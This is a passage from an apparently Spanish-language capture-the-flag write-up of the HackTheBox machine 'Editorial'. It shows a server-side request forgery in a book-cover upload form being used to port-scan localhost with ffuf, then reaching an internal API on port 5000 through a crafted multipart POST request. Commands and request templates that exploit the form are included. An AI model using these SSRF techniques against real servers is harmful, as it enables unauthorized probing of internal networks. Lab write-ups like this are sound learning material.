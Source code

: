 ```bash
seq 1 65535 > ports.txt
```

Entonces, **ffuf** va a tomar cada palabra (puerto) del archivo `ports.txt`, como ejemplo, pensemos que toma `1`, entra al archivo de la petición y cambia `http://127.0.0.1:FUZZ` por `http://127.0.0.1:1`, la envía y toma la siguiente palabra (`2`), sigue así hasta los 65535 puertos que le indicamos.

```bash
ffuf -c -w ports.txt -request post-upload-cover.req -request-proto http -fs 61
```

* `-c` pa darle color a la vida.
* `-request` toma el archivo donde está la petición.
* `-request-proto` permite indicar si se intenta hacer HTTP o HTTPS.
* `-fs` para filtrar respuestas con tamaño de 61, ya que sin él obtenemos muchas falsas esperanzas.

Ejecutamos yyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-ffuf-page80-upload-cover.png" style="width: 100%;"/>

El puerto 5000 está devolviendo informaciÓÓÓÓÓÓóÓóóÓNn, a verla:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-burp-reqYres-page80-upload-cover-url-localhost-5000.png" style="width: 100%;"/>

Y revisando la ruta que nos devuelve (que no es la default, así queeeeee ojito):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-burp-reqYres-page80-static-uploads-localhost-5000.png" style="width: 100%;"/>

Ujujuiii, parece que le pegamos a una API internaa!! Y nos está mostrando sus rutas:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-echoYjq-json-static-uploads-localhost-5000.png" style="width: 60%;"/>

¿Cómo podemos ver el contenido de cada ruta? Debemos seguir usando el SSRF, ya que es algo propio del puerto 5000 que está interno:

```txt
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------255246947212312145372072155828
Content-Length: 401
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------255246947212312145372072155828
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000/ACÁ_LAS_RUTINGAS
-----------------------------255246947212312145372072155828
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------255246947212312145372072155828--
```
